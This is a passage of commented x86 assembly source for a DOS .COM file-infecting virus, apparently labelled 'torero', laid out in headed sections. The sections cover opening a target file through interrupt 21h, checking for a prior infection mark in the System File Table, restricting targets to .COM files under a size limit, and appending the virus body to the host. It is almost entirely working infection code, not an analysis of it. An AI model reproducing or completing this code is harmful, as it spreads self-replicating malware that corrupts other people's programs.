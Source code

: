 #### Setup and Opening the File

```
infect_file:    pushf                              ; Save flag register on stack
                push    ax bx cx dx                 ; Save registers
                push    si di ds es                 ; Save index and segment registers

                call    set_int_24h                 ; Set interrupt 24h (critical error handler)

                cmp     ah,6ch                      ; Check if extended open (DOS 4.0+)
                jne     normal_open

                mov     dx,si                       ; If extended open, fix register values
normal_open:    mov     ax,3d00h                    ; Open file (handle in AL)
                call    int_21h                     ; Call DOS interrupt 21h to open file
                xchg    bx,ax                       ; Exchange AX and BX (file handle to BX)
```
#### Getting File's SFT and Checking for Previous Infection

```
push    cs                          ; Push CS onto stack
                pop     ds                          ; Set DS = CS

                call    get_sft                     ; Get file's System File Table (SFT)
                call    check_mark                  ; Check if file already infected
                jae     close_and_pop               ; Jump if file already infected or error
```

#### Preparing the File for Infection

```
mov     byte ptr es:[di+2],2        ; Set file open mode to read/write
                mov     ax,word ptr es:[di+28h]     ; Get file extension
                cmp     ax,'OC'                     ; Check if file is .COM
                jne     close_and_pop               ; If not .COM, don't infect

                mov     byte ptr cs:[infecting],1   ; Set infection flag
                mov     ah,3fh                      ; Prepare to read file
                mov     cx,3                        ; Read first 3 bytes (to check file header)
                lea     dx,header_store             ; Temporary storage for file header
                call    int_21h                     ; Read file header
```

#### Appending Virus to the File

```
mov     ax,word ptr es:[di+11h]     ; Get file length
                cmp     ax,0ea60h                   ; Check if file is too large
                ja      close_and_pop               ; If too large, don't infect

                push    ax                          ; Save file length
                call    lseek_end                   ; Move file pointer to the end

                mov     ah,40h                      ; Prepare to write to file
                mov     cx,torero_size              ; Size of virus code
                lea     dx,torero_start             ; Start of virus code in memory
                call    int_21h                     ; Append virus to file
```
